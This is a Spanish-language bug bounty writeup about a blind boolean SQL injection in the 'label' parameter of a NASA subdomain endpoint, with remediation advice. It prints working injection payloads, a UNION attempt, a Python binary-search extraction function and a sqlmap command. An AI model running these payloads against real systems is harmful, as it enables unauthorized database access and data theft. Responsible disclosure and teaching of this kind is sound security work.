

SQLi en la NASA: cómo conseguí mi LoR
Este es mi primer bug encontrado haciendo bug bounty, y uno del que estoy bastante orgulloso: un blind-boolean SQLi en un subdominio de la NASA. En este writeup explico cómo lo descubrí, cómo lo exploté y qué aprendí en el proceso.
Resumen
Un endpoint de un subdominio de la Nasa era vulnerable a inyección SQL sobre el parámetro label. El servidor devolvía el stack trace completo de Tomcat ante errores de sintaxis SQL (entre otros), revelando la consulta exacta y el DBMS (Oracle). Aunque el WAF bloqueaba las técnicas UNION-based más directas, fue posible exfiltrar datos mediante una técnica blind boolean con búsqueda binaria sobre ASCII.
Reconocimiento
Realizando reconocimiento para mapear los endpoints de un subdominio de la NASA, encontré uno que respondía con un 405 Method Not Allowed a peticiones GET. El único método permitido era OPTIONS, pero la respuesta trajo algo inesperado: un archivo WADL con un listado completo de endpoints de la API.
Gracias a pruebas previas en esta aplicación, sabía que en ciertos endpoints el stack trace de Tomcat estaba activo cuando se producía un error 500, un detalle que ha resultado importante. Entre los endpoints listados en el WADL, uno en particular llamó mi atención:
GET /abstract?label=document1
El parámetro label recibe el identificador de un elemento y devuelve su descripción. Un buen sitio para probar algún tipo de inyección.
Análisis de la vulnerabilidad
La prueba inicial fue tan simple como añadir una comilla simple al valor del parámetro:
GET /abstract?label=document1'
El servidor respondió con un 500 Internal Server Error acompañado del stack trace completo de Tomcat. En él se filtraba la consulta SQL exacta que se estaba ejecutando, junto con una SQLSyntaxErrorException de Oracle. La comilla simple estaba siendo colocada directamente en la consulta sin ningún tipo de escapado ni parametrización, tal y como se puede ver en la siguiente imagen.

La causa es la común en una inyección SQL: concatenación directa de input del usuario en una consulta, sin prepared statements ni validación de entrada.
Explotación
El paso natural era intentar un UNION SELECT para exfiltrar datos directamente. Sin embargo, el WAF bloqueaba cualquier petición que contuviera la palabra UNION:
GET /abstract?label=document1' UNION SELECT user,null,null FROM dual--
403 Forbidden (WAF)Ante esto, la alternativa era un blind boolean SQLi: en lugar de extraer datos directamente, se evalúan condiciones booleanas y se infiere la información carácter a carácter a partir del comportamiento del servidor.
La técnica se verificó fácilmente con dos payloads:
-- Condición verdadera: respuesta normal con contenido
GET /abstract?label=document1' AND 7348=7348--
-- Condición falsa: 200 OK pero respuesta vacía
GET /abstract?label=document1' AND 7348=7349--
Confirmado el comportamiento, el siguiente paso fue desarrollar una prueba de concepto para demostrar que la vulnerabilidad permitía la extracción real de datos. Como demostración, planteé la exfiltración del nombre del usuario de la base de datos mediante búsqueda binaria sobre el valor ASCII de cada carácter. Oracle dispone de las funciones ASCII() y SUBSTR() para esto, y la tabla especial dual actúa como tabla auxiliar de una sola fila:
-- ¿Es el primer carácter del usuario mayor que 'M' (77 en ASCII)?
GET /abstract?label=document1' AND 1=(SELECT 1 FROM dual WHERE ASCII(SUBSTR(user,1,1))>77)--Automaticé la extracción con un script Python que implementa búsqueda binaria:
def extract_string(target_expr, length):
result = ""
for pos in range(1, length + 1):
lo, hi = 32, 127
while lo <= hi:
mid = (lo + hi) // 2
if boolean_query(f"ASCII(SUBSTR({target_expr},{pos},1))>{mid}"):
lo = mid + 1
else:
hi = mid - 1
result += chr(lo)
return result
Después del reporte me di cuenta de que sqlmap también lo resuelve directamente con un único comando:
sqlmap -u "https://subdomain.nasa.gov/abstract?label=document1" \
--technique=B --dbms=Oracle --level=3 --batchImpacto
El impacto de una inyección SQL siempre suele ser considerable. En este caso concreto, la vulnerabilidad permitía: exfiltración de datos de la base de datos Oracle, reconocimiento de infraestructura interna (usuario de BD, versión, esquemas) y, dependiendo de los privilegios del usuario de la base de datos, una potencial escalada hacia otras partes del sistema.
Mitigación
La solución pasa por dos cambios fundamentales: reemplazar la concatenación de strings en las consultas SQL por prepared statements con parámetros vinculados, y deshabilitar el stack trace de Tomcat en producción para no exponer información interna ante errores. El WAF aportaba cierta protección frente a técnicas básicas, pero como demostró este caso, no es una defensa suficiente por sí sola.
Conclusiones
Este fue mi primer bug en bug bounty, y la experiencia fue muy satisfactoria. Lo que empezó con una comilla simple terminó siendo un P1 en la NASA. Algunos aprendizajes que me llevo: el WADL fue clave para descubrir el endpoint vulnerable; el stack trace activo en producción convirtió un posible blind SQLi en una vulnerabilidad mucho más sencilla de identificar y explotar; y un WAF no reemplaza el código seguro, como demuestra el hecho de que el bypass booleano funcionara sin mayor dificultad.